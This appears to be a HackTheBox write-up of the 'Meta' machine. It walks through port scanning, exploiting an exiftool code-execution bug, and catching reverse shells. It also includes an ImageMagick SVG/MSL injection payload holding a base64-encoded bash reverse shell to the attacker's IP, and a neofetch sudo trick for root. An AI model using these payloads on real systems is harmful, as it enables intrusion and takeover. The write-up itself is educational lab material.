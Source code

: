 ```yaml
---
title: Meta writeup
date: 2022-06-24 12:00:00 +0200
categories: [Writeup, HackTheBox]
tags: ["medium-box", "exiftool", "imagetragick"]    # TAG names should always be lowercase
img_path: /assets/img/boxes/meta/
image: # Thumbnail 
  src: Meta.png
  width: 1000   # in pixels
  height: 400   # in pixels
---              
```


## Summary

## Foothold
We start out with a nmap port scan.
```console
┌──(bitis㉿workstation)-[~/htb/Machines/meta]
└─$ nmap -sC -sV 10.129.83.137    
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-24 15:13 CEST
Nmap scan report for 10.129.83.137
Host is up (0.13s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 12:81:17:5a:5a:c9:c6:00:db:f0:ed:93:64:fd:1e:08 (RSA)
|   256 b5:e5:59:53:00:18:96:a6:f8:42:d8:c7:fb:13:20:49 (ECDSA)
|_  256 05:e9:df:71:b5:9f:25:03:6b:d0:46:8d:05:45:44:20 (ED25519)
80/tcp open  http    Apache httpd
|_http-server-header: Apache
|_http-title: Did not follow redirect to http://artcorp.htb
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.35 seconds
```
The box has two open ports, 22 nad 80. We can see based on the scan that the web application hosted on port 80 redirects to `http://artcorp.htb` so let's add it to our hosts file. We can then use gobuster to enumerate vhosts.
```console
┌──(bitis㉿workstation)-[~/Coding/BitisG.github.io]
└─$ gobuster vhost -u artcorp.htb -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:          http://artcorp.htb
[+] Method:       GET
[+] Threads:      10
[+] Wordlist:     /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt
[+] User Agent:   gobuster/3.1.0
[+] Timeout:      10s
===============================================================
2022/06/24 15:47:54 Starting gobuster in VHOST enumeration mode
===============================================================
Found: dev01.artcorp.htb (Status: 200) [Size: 247]
                                                  
===============================================================
2022/06/24 15:48:25 Finished
===============================================================
```
Visiting `dev01.artcorp.htb` gets us to the following page

![dev01 welcome page](dev01.png)
_dev01 welcome page_

Taking a look at the Metaview application, it seems that it simply takes a png/jpg and runs exiftool on it. 

![metaview application](metaview.png)

Searching for vulnerabilities in exiftool leads us to the following [github repository](https://github.com/convisolabs/CVE-2021-22204-exiftool). A quick TL;DR of the exploit: in older versions of exiftool, if an image contained djvu data it would be impoperly handled, leading to code execution. We can leverage this into getting a reverse shell on the box.

```console
┌──(bitis㉿workstation)-[~/htb/Machines/meta/CVE-2021-22204-exiftool]
└─$ nc -lvnp 9090             
listening on [any] 9090 ...
connect to [10.10.17.182] from (UNKNOWN) [10.129.83.137] 42948
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ 
```

## Pivot
Now that we have access as www-data on the box, it is time to get access to a proper user account. We can run pspy to see if there are any interesting processes being run on the box.
```console
2022/06/24 08:20:01 CMD: UID=0    PID=2038   | cp -rp /root/conf/config_neofetch.conf /home/thomas/.config/neofetch/config.conf 
2022/06/24 08:20:01 CMD: UID=1000 PID=2039   | /bin/bash /usr/local/bin/convert_images.sh 
2022/06/24 08:20:01 CMD: UID=1000 PID=2040   | /usr/local/bin/mogrify -format png *.* 
2022/06/24 08:20:01 CMD: UID=1000 PID=2041   | /bin/bash /usr/local/bin/convert_images.sh 
```
As we can see, root is messing around with neofetch for some reason, and the user with UID 1000 is running a script named `convert_images.sh`. The contents of the script can be found below:
```console
ww-data@meta:/var/www/dev01.artcorp.htb/metaview$ cd /usr/local/bin
cd /usr/local/bin
www-data@meta:/usr/local/bin$ ls
ls
Magick++-config    compare    convert_images.sh  import         montage
MagickCore-config  composite  display            magick         stream
MagickWand-config  conjure    exiftool           magick-script
animate            convert    identify           mogrify
www-data@meta:/usr/local/bin$ cat convert_images.sh
cat convert_images.sh
#!/bin/bash
cd /var/www/dev01.artcorp.htb/convert_images/ && /usr/local/bin/mogrify -format png *.* 2>/dev/null
pkill mogrify
www-data@meta:/usr/local/bin$ 

```
As we can see it is a rather straightforward oneliner. If we take a look at the other files found in the directory where the script is found we might be lead to belive that the system is using imagemagick to perform actions on user submitted images. This points us towards [imagetragick](https://imagetragick.com/). More specifically, the version of mogrify reveals that the box is using imagemagick version 7.0.10-36. Searching around for related exploits and proof-of-concepts gives us the [following post](https://insert-script.blogspot.com/2020/11/imagemagick-shell-injection-via-pdf.html), revealing that we can use an XML file to inject commands. I base64 encoded a reverse shell and uploaded the following xml file as a svg to the target system. 
```XML
<image authenticate='ff" `echo
L2Jpbi9iYXNoIC1jICcvYmluL2Jhc2ggLWkgJj4vZGV2L3RjcC8xMC4xMC4xNy4xODIvMTMzNyAwPiYxJwo=|base64 -d|bash`;"'>
<read filename="pdf:/etc/passwd"/>
<get width="base-width" height="base-height" />
<resize geometry="400x400" />
<write filename="test.png" />
<svg width="700" height="700" xmlns="http://www.w3.org/2000/svg"
xmlns:xlink="http://www.w3.org/1999/xlink">
<image xlink:href="msl:shup.svg" height="100" width="100"/>
</svg>
</image>
```
Once the cron job has run we get a reverse shell:
```console
┌──(bitis㉿workstation)-[~]
└─$ nc -lvnp 1337              
listening on [any] 1337 ...
connect to [10.10.17.182] from (UNKNOWN) [10.129.83.137] 39694
bash: cannot set terminal process group (2641): Inappropriate ioctl for device
bash: no job control in this shell
thomas@meta:/var/www/dev01.artcorp.htb/convert_images$ 
```
## Privilege escalation
Running sudo -l we get the following output: 
```console
thomas@meta:~$ sudo -l
Matching Defaults entries for thomas on meta:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, env_keep+=XDG_CONFIG_HOME

User thomas may run the following commands on meta:
    (root) NOPASSWD: /usr/bin/neofetch \"\"
thomas@meta:~$ 
```
We can neofetch as root. The interesting thing to note here is that we get to keep the value of the environmentv alue `XDG_CONFIG_HOME` Reading the [documentation](https://specifications.freedesktop.org/basedir-spec/basedir-spec-latest.html), this variable "defines the base directory relative to which user-specific configuration files should be stored. If `$XDG_CONFIG_HOME` is either not set or empty, a default equal to $HOME/.config should be used". Since it is not set currently, this means that when we run neofetch, the config file is fetched from `/root/.config`{: .filepath}. If we create a bash script somewhere and then replace the config file for neofetch with it, the content of the file will be executed. Assuming of course that we set the path to the script correctly prior to execution.
```
thomas@meta:~/.config/neofetch$ echo "exec /bin/bash" > config.conf 
thomas@meta:~$ export XDG_CONFIG_HOME=~/.config/
thomas@meta:~$ sudo neofetch
root@meta:/home/thomas# 
```
Rooted!

